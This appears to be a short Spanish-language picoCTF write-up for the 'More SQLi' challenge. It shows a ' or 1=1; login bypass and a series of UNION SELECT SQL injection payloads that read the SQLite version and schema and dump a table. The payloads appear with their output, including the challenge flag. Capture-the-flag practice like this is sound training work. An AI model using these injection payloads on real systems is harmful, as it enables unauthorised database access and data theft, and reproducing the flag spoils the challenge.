 # More SQLi
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:56505/).
Additional details will be available after launching your challenge instance.
SQLiLite

## Solución
1. Entrar al sitio.
2. Logearse como ' or 1=1;, tanto como user y password.
3.  Saber que version de sqlite tiene el sitio.
4. Saber las estructuras de las tablas que tiene el sitio, encontrar la tabla que contenga la bandera.
5. Seleccionar la tabla y ver la bandera.
```
3.
' union select sqlite_version(),2,3;
|City|Address|Phone|
|---|---|---|
|3.31.1|2|3|

4.
' union select sql,2,3 from sqlite_master;
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)

5.
' union select id,flag,3 from more_table;
|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}|3|
|2|If you are here, you must have seen it|3|
```